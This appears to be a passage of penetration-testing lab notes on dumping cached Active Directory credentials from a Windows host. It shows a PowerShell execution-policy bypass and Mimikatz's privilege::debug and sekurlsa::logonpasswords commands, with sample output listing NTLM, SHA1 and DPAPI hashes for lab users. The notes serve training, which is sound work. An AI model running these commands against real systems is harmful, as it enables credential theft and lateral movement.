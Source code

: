 > [!info] To bypass the execution policy use `powershell -ep bypass`

## Cached AD Credentials (Logged users and tickets - From Windows)

We can enter **privilege::debug** to engage the _SeDebugPrivlege_ privilege, which will allow us to interact with a process owned by another account

```shell
PS C:\Windows\system32> cd C:\Tools

PS C:\Tools\> .\mimikatz.exe
...

mimikatz # privilege::debug
Privilege '20' OK
```

We can run **sekurlsa::logonpasswords** to dump the credentials of all logged-on users with the _Sekurlsa_ module.

```shell
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 4876838 (00000000:004a6a26)
Session           : RemoteInteractive from 2
User Name         : jeff
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 12:32:11 PM
SID               : S-1-5-21-1987370270-658905905-1781884369-1105
        msv :
         [00000003] Primary
         * Username : jeff
         * Domain   : CORP
         * NTLM     : 2688c6d2af5e9c7ddb268899123744ea
         * SHA1     : f57d987a25f39a2887d158e8d5ac41bc8971352f
         * DPAPI    : 3a847021d5488a148c265e6d27a420e6
        [...SNIP...]
...
Authentication Id : 0 ; 122474 (00000000:0001de6a)
Session           : Service from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/9/2022 1:32:23 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103
        msv :
         [00000003] Primary
         * Username : dave
         * Domain   : CORP
         * NTLM     : 08d7a47a6f9f66b97b1bae4178747494
         * SHA1     : a0c2285bfad20cc614e2d361d6246579843557cd
         * DPAPI    : fed8536adc54ad3d6d9076cbc6dd171d
        [...SNIP...]
...
```
